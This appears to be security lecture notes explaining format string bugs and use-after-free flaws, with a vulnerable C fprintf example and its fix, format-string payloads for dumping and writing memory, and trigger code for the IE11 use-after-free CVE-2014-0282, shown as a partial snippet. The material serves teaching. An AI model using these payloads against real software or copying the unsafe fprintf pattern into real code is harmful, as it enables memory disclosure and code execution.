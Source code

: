 ### Format string bugs

```c
int func(char *user) {
    fprintf(stderr, user);
}
```

Problem: what if `*user == "%s%s%s%s%s%s%s"`?

* Most likely: program will crash (denial of service)
* If not, program will print memory contents (privacy concerns)
* Full exploit using `user == "%n"` (print everything previously printed to `stdout`)

Correct form: `fprintf(stderr, "%s", user);`

Exploits:

* Dumping arbitrary memory
    - Walk up stack until desired pointer is found
    - `printf("%08x.%08x.%08x.%08x|%s|");`
    - `"%08x"`: move 8 bytes up the stack
* Writing to arbitrary memory
    - `printf("hello %n", &temp);` - writes '6' into `temp`
    - `printf("%08x.%08x.%08x.%08x.%n");`

### Use-after-free exploits

Constituted 36% of security vulnerabilities in Chrome 2015-2020

Example: IE11 CVE-2014-0282

```html
<form id="form">
    <textarea id="c1" name="a1" ></textarea>
    <input id="c2" type="text" name="a2” value="val">
</form>
<script>
    function changer() {
        document.getElementById("form").innerHTML = "";
        CollectGarbage(); // erase c1 and c2 fields
    }
    document.getElementById("c1").onpropertychange = changer;
    // loops on c1.DoReset() and c2.DoReset()
    document.getElementById("form").reset();
</script>
```

* `c1.doReset()` causes `changer()` to be called and free object `c2`
    - `c2` points to a vtable that points to `doSomething`, `doReset`, and `doSomethingElse`
* Suppose attacker allocates a string of same size as `vtable` containing ShellCode
    - When `c2.DoReset()` is called, attacker gets shell

The exploit:

```html
<form id="form">
    <textarea id="c1" name="a1" ></textarea>
    <input id="c2" type="text" name="a2” value="val">
</form>
<script>
    function changer() {
        document.getElementById("form").innerHTML = "";
        CollectGarbage(); // erase c1 and c2 fields

        // allocate string object to occupy vtable location
    }
    document.getElementById("c1").onpropertychange = changer;
    // loops on c1.DoReset() and c2.DoReset()
```